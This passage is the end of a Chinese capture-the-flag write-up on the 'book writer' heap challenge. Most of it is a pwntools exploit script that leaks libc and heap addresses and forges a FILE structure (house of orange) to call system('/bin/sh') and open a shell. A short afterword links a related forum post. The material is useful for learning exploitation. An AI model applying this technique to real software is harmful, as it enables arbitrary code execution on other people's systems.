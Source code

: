 ```py
    Add(0x18,'a'*0x18)#1
    Edit(1,'b'*0x18)
    Edit(1,'c'*0x18+'\xc1\x0f\x00')
    Add(0x1000,'d'*8)#2
    Add(0x400,'a'*8)#3
    View(3)
    p.recvuntil('Content :\n')
    p.recvuntil('a'*8)
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 1640 - libc_offset
    log.success('libc base => ' + hex(libc_base))
    raw_input()
    system_addr = libc_base + libc.symbols['system']
    io_list_all = libc_base + 0x3c5520
    #leak heap
    Edit(3,'d'*0x10)
    View(3)

    p.recvuntil('Content :\n')
    p.recvuntil('d'*0x10)
    heap_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x40
    log.success('heap base => ' + hex(heap_base))
    raw_input()
    #overwrite the unsorted bin
    Add(0x38,'a')#4

    fake_file  = "/bin/sh\x00"+p64(0x61)+p64(0)+p64(io_list_all-0x10)
    fake_file  += p64(2)+p64(3)+'\x00'*0xa8
    fake_file  += p64(heap_base+0x470)
    #Edit(3,fake_file)
    #Edit(3,'B'*0X70+'/bin/sh\x00'+'\x61')
    Add(0x10,'a')#5
    Add(0x10,'a')#6
    Add(0x10,'a')#7
    Add(0x10,'b')#8
    payload = '\x00'*0x10+p64(0)+p64(0x21)+'a'*0x18+p64(0x411)
    payload += 'a'*0x400
    payload += p64(0)+p64(0x81)
    payload += p64(system_addr)*0xc
    payload += (p64(0)+p64(0x21)+'a'*0x10)*2+p64(0)+p64(0x21)
    payload += fake_file
    Edit(0,payload)
    gdb.attach(p)
    p.recvuntil('choice :')
    p.sendline('1')
    p.recvuntil("Size of page :")
    p.sendline(str(0))#0

    p.interactive()

exp()

```

## 后言

看p4nda师傅看雪的一篇帖子提到HCTF 2017 有道baby printf也用到了house of orange，且不需要泄露heap地址，直接从libc中找fake vtable，在构造fake file的时候对应偏移修改system地址及参数地址即可，这个方法我尝试在book writer复现，但是libc中没找到所说的vtable，在libc 2.24中找到了，以后需要再搞吧，这里给个链接。

[s1mple](https://bbs.pediy.com/thread-222735.htm)
